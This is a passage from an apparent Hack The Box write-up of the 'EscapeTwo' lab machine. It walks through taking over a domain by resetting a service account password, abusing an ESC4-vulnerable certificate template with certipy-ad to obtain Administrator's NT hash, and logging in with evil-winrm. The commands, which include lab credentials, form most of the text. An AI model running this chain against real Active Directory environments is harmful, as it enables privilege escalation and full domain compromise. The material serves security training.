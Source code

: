 3. Reset the password for ca_svc:
```
net rpc password "ca_svc" 'pir4cy1sc00l!' -U "sequel.htb"/"ryan"%'WqSZAF6CysDQbGb3' -S "dc01.sequel.htb"
```

![ryan-abusing-writeowner](/images/htb/machines/EscapeTwo/ryan-abusing-writeOwner.png)

Now we have access to the 'ca_svc' account!

## ADCS Exploitation

With access to 'ca_svc', we discover that this account is a member of the CERTPUBLISHERS group, which has special privileges related to Active Directory Certificate Services (ADCS).

Using certipy-ad, we can enumerate available certificate templates:

```
certipy-ad find -u ca_svc@sequel.htb -p 'pir4cy1sc00l!' -dc-ip 10.10.11.51 -text
```
![certipy find](/images/htb/machines/EscapeTwo/certipy-find-certificates.png)

We identify a vulnerable template called "DunderMifflinAuthentication" that has the ESC4 vulnerability, allowing the CERTPUBLISHERS group to request certificates for any user, including Administrator. The vulnerability exists because members of the CERTPUBLISHERS group have enrollment rights and dangerous permissions (Full Control, Write Owner, Write DACL) on the template.

![exploitable template](/images/htb/machines/EscapeTwo/certipy-dundermifflin-template.png)

Let's exploit this ESC4 vulnerability to obtain a certificate for the Administrator account:

```
certipy-ad req -username ca_svc@sequel.htb -p 'pir4cy1sc00l!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb 
```

![certipy admin req](/images/htb/machines/EscapeTwo/certipy-admin-forge.png)

With the certificate, we can retrieve the Administrator's NT hash:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51
```

![admin hash](/images/htb/machines/EscapeTwo/admin-hash.png)

Finally, we can use Evil-WinRM with the hash to get system access:

```
evil-winrm -i dc01.sequel.htb -u Administrator -H <admin hash>
```

Success! We can now grab the root.txt flag from the Administrator's desktop.

![rooted](/images/htb/machines/EscapeTwo/rooted.png)

## Conclusion

